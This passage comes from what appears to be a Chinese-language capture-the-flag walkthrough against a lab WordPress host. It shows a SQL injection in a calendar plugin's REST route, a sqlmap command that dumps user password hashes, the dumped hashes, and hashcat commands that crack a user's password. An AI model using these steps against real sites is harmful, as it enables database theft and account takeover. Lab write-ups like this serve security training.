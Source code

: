 ![image](https://github.com/user-attachments/assets/d54e46b9-e1d9-4ae4-959d-533c500828fc)

![image](https://github.com/user-attachments/assets/48e4be02-5f6e-4566-bd5c-134fbc36e90d)

# 3.SQL 注入漏洞利用

尝试构造 SQL 注入 payload，利用漏洞获取 WordPress 数据库中的用户信息：

```
http://examen.thlcpptv16.thl/?rest_route=/my-calendar/v1/events&to=1*
```

然后使用 **sqlmap** 进行自动化注入，提取用户信息：

```
sqlmap -u 'examen.thlcpptv16.thl/?rest_route=/my-calendar/v1/events&to=1*' --batch -D wordpress -T wp_users -C user_login,user_pass --dump
```

输出如下，成功获取到用户的哈希密码：

```
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| jerry      | $P$B0uohNeAjd6aq3n0dv6NC7Nhkro0Kt. |
| examinador | $P$B43UAoTTnv0stdbxGqzwyQtyXm86x/1 |
| tom        | $P$BJrv/Sv/rBlufcIW5FiMdUW4lA5UrN1 |
+------------+------------------------------------+
```

# 4.Hash 密码爆破

使用 **hashid** 工具识别哈希算法：

```
hashid -e hash
```

![image](https://github.com/user-attachments/assets/3e569c79-85a8-4b52-974f-91f1505f192b)

然后使用 **hashcat** 进行密码爆破：

```
hashcat -a 0 -m 400 hash /usr/share/wordlists/q5000.txt
```

![image](https://github.com/user-attachments/assets/46a062a2-b8ac-46dd-9edc-2a7030aa7854)

爆破成功，获得了 `tom` 用户凭证

# 5.WrapWrap Filter 漏洞

> [!IMPORTANT]
> https://github.com/ambionics/wrapwrap
